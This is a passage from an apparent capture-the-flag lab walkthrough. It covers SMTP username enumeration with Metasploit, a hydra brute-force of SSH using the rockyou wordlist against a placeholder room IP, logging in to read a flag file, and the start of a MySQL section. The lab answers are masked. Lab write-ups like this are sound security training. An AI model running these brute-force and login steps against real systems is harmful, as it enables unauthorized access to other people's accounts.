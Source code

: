 Once we've set this option, what is the other essential paramater we need to set?

- `show options` and check what else we need to set.
- `R***T*`

Now, set the THREADS parameter to 16 and run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water. Keep yourself hydrated!

- `set THREADS 16`
- `exploit`

Okay! Now that's finished, what username is returned?

- `*************`

#### Exploiting SMTP

We got `{USERNAME}` in the previous step.

`hydra -t 16 -l {USERNAME} -P /usr/share/wordlists/rockyou.txt -vV {ROOM_IP} ssh`

What is the password of the user we found during our enumeration stage?

- `a***a****`

Great! Now, let's SSH into the server as the user, what is contents of `smtp.txt`.

- `ssh {USERNAME}@{ROOM_IP}` => yes => enter the password we got.
- After logging in, `ls -la` and you will see a file `smtp.txt`. Run `cat smtp.txt` to capture the flag.

### MySQL

#### Understanding MySQL

What type of software is MySQL?

- Relational Database Management System

What language is MySQL based on?

- SQL

What communication model does MySQL use?

- Read under **SQL** point in the provided information.

What is a common application of MySQL?

- Read under **What runs MySQL?** point in the provided information.

What major social network uses MySQL as their back-end database? This will require further research.

- `F*******`

#### Enumerating MySQL

As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using?
